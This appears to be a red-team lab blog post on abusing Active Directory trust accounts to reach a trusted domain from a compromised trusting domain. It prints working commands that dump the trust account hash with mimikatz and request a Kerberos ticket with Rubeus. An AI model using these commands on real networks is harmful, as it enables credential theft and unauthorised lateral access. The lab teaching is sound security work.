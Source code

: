 ```yaml
---
layout: post
title: "abusing trust accountusd accessing resources on a trusted domain from a trusting domain"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /abusing-trust-accountusd-accessing-resources-on-a-trusted-domain-from-a-trusting-domain/
---
```


---
layout: post
title: "abusing trust accountusd accessing resources on a trusted domain from a trusting domain"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /abusing-trust-accountusd-accessing-resources-on-a-trusted-domain-from-a-trusting-domain/
---

# Abusing Trust Account$: Accessing Resources on a Trusted Domain from a Trusting Domain

This is a quick lab to familiarize with a technique that allows accessing resources on a trusted domain from a fully compromised (Domain admin privileges achieved) trusting domain, by recovering the trusting `account$` (that's present on the trusted domain) password hash.

This lab is based on the great research here [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted), go check it out for more details and detection / prevention ideas.

## Overview

The environment for this lab is as follows:

| Resource               | Type              |                                                                                      |
| ---------------------- | ----------------- | ------------------------------------------------------------------------------------ |
| first-dc.first.local   | Domain Controller | Domain controller in the first.local domain                                          |
| second-dc.second.local | Domain Controller | Domain controller in the second.local domain                                         |
| first.local            | Domain            | This domain does not trust second.local domain, but second.local trusts this domain. |
| second.local           | Domain            | This domain trusts first.local domain, but first.local does not trust this domain.   |

In short, there is a one way trust relationship between `first.local` and `second.local`, where `first.local` does not trust `second.local`, but `second.local` trusts `first.local`. Or simply put in other words, it's possible to access resources from `first.local` on `second.local`, but not the other way around.

The technique in this lab, however, shows that it's still possible to access resources from `second.local` on `first.local` domain if `second.local` domain is compromised and domain admin privileges are obtained.&#x20;

This technique is possible, because once a trust relationship between domains is established, a trust account for the trusting domain is created in the trusted domain and it's possible to compromise that account's password hash, which enables an attacker to authenticate to the trusted domain with the trust account.

In our lab, considering that `first.local` is a trusted domain trusted by the trusting domain `second.local`, the trust account `first.local\second$` (user account `second$` in the domain `first.local`) will be created.&#x20;

`first.local\second$` is the trust account we want to and CAN compromise from the `second.local domain`, assuming we have domain admin privileges there.

Visually, this looks like something like this:

![Technique / attack diagram based on the one seen in https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](<../../.gitbook/assets/image (1088).png>)

## Checks

Let's check some of the things we touched on in the overview.&#x20;

Confirm the trust relationships between domains:

```
# on first-dc.first.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1092).png>)

```
# on second-dc.second.local
get-adtrust -filter *
```

![](<../../.gitbook/assets/image (1089).png>)

Confirm that there's a trust account `second$` on `first.local` domain:

```
# on first-dc.first.local
get-aduser 'second$'
```

![](<../../.gitbook/assets/image (1094).png>)

Confirm that we can enumerate resources on the trusting domain `second.local` from `first.local`:

```
# from first-dc.first.local
get-aduser -Filter * -Server second.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1085).png>)

Confirm that we cannot (just yet, but this is soon to change) enumerate resources on the trusted domain `first.local` from the trusting domain :

```
# on second-dc.second.local
get-aduser -Filter * -Server first.local -Properties samaccountname,serviceprincipalnames | ? {$_.ServicePrincipalNames} | ft
```

![](<../../.gitbook/assets/image (1091).png>)

## Compromising Trust Account first.local\second$

As mentioned earlier, the main crux of the technique is that we're able to compromise the trust account `first.local\second$` if we have domain admin privileges on `second.local`.

To compromise the `first.local\second$` and reveal its password hash, we can use mimikatz like so:

```
# on second-dc.second.local
mimikatz.exe "lsadump::trust /patch" "exit"
```

![](<../../.gitbook/assets/image (1093).png>)

Note the RC4 hash in `[out] first.local` -> `second.local` line - this is the NTLM hash for `first.local\second$` trust account, capture it.

## Requesting TGT for first.local\second$

Once we have the NTLM hash for `first.local\second$`, we can request its TGT from `first.local`:

```
#on second-dc.second.local
Rubeus.exe asktgt /user:second$ /domain:first.local /rc4:24b07e26ca7affb4ac061f6920cb57ec /nowrap /ptt
```

![](<../../.gitbook/assets/image (1095).png>)

## Accessing Resources on First.local from Second.local

At this point on `second-dc.second.local`, we have a TGT for `first.local\second$` committed to memory and we can now start enumerating resources on `first.local` - and this concludes the technique, showing that it's possible to access resources on a trusted domain (as a low privileged user), given the trusting domain is compromised:

```
Get-ADUser roast.user -Server first.local -Properties * | select samaccountname, serviceprincipalnames
```

![](<../../.gitbook/assets/image (1090).png>)

## References

{% embed url="https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted" %}
@spotheplanet
